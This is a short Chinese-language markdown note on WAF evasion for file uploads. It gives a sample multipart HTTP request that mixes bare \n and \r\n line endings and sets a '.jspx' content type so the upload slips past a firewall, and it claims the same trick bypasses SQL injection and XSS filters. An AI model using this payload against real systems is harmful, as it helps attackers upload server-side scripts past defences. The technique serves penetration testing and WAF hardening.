


# 文件上传 -- WAF 绕过技术

## 0x01 脏数据填充

经典脏数据填充，不再赘述。

## 0X02 利用 WAF 对 `\n` 和 `\r\n` 的识别盲点

```http
------WebKitFormBoundary9DkqDpPfVhcDRZQo\r\n
Content-Disposition: form-data; name="multipartFile"; filename="8712f11b-0008-49b0-98e1-3180280e7241.png"\n
Content-Type: image/.jspx\r\n
\r\n
‰PNG\r\n
\r\n
------WebKitFormBoundary9DkqDpPfVhcDRZQo--\r\n
```

使用上面的 Payload 进行上传绕过，可以绕过大部分 WAF，不行的话再配搭其他绕过方式。

- **原理：** 在 HTTP 1.1 协议，基于 WAF 和后端对 `\n` 和 `\r\n` 处理差异。 RFC 7578 要求使用 CRLF，不过大部分 WAF 都不会区分 `\n` 和 `\r\n`。

- **优点：** 通用且好用。sql 注入绕过、文件上传绕过、XSS绕过、.... 

 


